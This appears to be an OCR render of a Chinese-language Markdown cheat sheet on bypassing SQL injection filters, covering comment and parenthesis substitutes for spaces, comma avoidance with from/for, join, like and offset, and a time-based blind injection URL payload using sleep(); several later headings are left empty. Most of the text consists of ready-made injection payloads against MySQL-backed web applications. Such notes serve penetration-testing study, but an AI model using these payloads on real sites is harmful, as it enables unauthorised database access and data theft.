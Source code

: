   ```sql
select/**/schema_name/**/from/**/information_schema.schemata;
  ```

+ ##### **括号绕过空格**

  ```sql
  select(user())from dual where(1=1)and(2=2)
  ```

  这种过滤方法常常用于time based盲注:

  ```sql
  ?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
  ```

  　　上面的方法既没有逗号也没有空格。猜解database（）第一个字符ascii码是否为109，若是则加载延时。

+ ###### **引号绕过（使用十六进制）**

+ ###### **逗号绕过（使用from或者offset）**

  在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。

  1. 对于substr()和mid()这两个方法可以使用from to的方式来解决：

    ```sql
    select substr(database() from 1 for 1);
    ```

    ```sql
    select mid(database() from 1 for 1);
    ```

  2. 使用join：
  
    union select 1,2     #等价于
  
    ```sql
    union select * from (select 1)a join (select 2)b
    ```
  
  3. 使用like：

    select ascii(mid(user(),1,1))=80   #等价于
    ```sql
    select user() like 'r%'
    ```

  4. 对于limit可以使用offset来绕过：

    select * from news limit 0,1      #等价于下面这条SQL语句
    ```sql
    select * from news limit 1 offset 0
    ```

+ ###### **比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）**

  1. 使用greatest()、least（）：（前者返回最大值，后者返回最小值）
  2. 使用between and

+ ###### **or and xor not绕过**
